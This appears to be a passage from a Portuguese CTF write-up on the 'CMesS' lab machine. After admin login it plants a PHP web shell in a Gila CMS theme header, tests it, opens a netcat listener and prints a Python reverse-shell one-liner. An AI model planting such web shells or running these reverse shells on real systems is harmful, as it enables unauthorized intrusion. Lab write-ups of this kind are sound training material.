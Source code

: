 Logando:

![Pasted image 20220601092834](https://user-images.githubusercontent.com/77530544/171439418-ddf03baf-9cd4-4823-af0e-946d09154ba0.png)

Agora temos acesso à pagina **admin**:

![Pasted image 20220601092914](https://user-images.githubusercontent.com/77530544/171439487-a50b88ec-319c-48d9-9e2a-182efb121d6e.png)

Com isso, conseguimos saber a versão do **Gila CMS**: 1.10.9
Obtivemos acesso à um painel de admin, com direito até a um **File Manager** com **adição**, **remoção** e **update** de arquivos:

![Pasted image 20220601093523](https://user-images.githubusercontent.com/77530544/171439692-5778287d-fc1d-4c79-8f74-a2f8fb19dd8e.png)
![Pasted image 20220601093640](https://user-images.githubusercontent.com/77530544/171439723-f4b9376a-1d7a-48ec-9240-647f39d01e6b.png)

Iremos modificar o arquivo **/themes/gila-blog/header.php** atrás de obter um **reverse shell** através de um **webshell**:

```
[...]
<?php
system($_GET["cmd"]); # Retorna web shell que aceita input
view::stylesheet('lib/gila.min.css');
view::stylesheet('lib/font-awesome/css/font-awesome.min.css');
view::head()?>
<style>
[...]
```

Hora de testar o **webshell**, para isso vamos até **cmess.thm** e no final do endereço vamos adicionar "**?cmd=ls**", para rodar o comando **ls** naquele **webshell**, que nos retornará uma listagem de diretório, bem no começo da página:

![Pasted image 20220601095445](https://user-images.githubusercontent.com/77530544/171439769-64cffdd3-d820-4aef-bb7a-12fefc9d4fa7.png)

Decidi usar **Python** para obter este **reverse shell**, então para isso vamos descobrir a versão que temos instalada em nosso alvo rodando **"?cmd=Python3 --version"**:

![Pasted image 20220601100556](https://user-images.githubusercontent.com/77530544/171439809-332fb639-371a-42be-aa8d-2b4a9583c62b.png)

Agora vamos abrir um **listener** em nossa máquina, que irá ficar esperando a conexão da máquina alvo.

```
nc -lnvvvp 6666                                                                     
Listening on any address 6666
```

Os comandos que vamos inserir em nosso **webshell** agora serão um pouco mais robustos. **Exemplo de reverse shell em Python com uma linha de código**:  
*Leitura recomendada: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
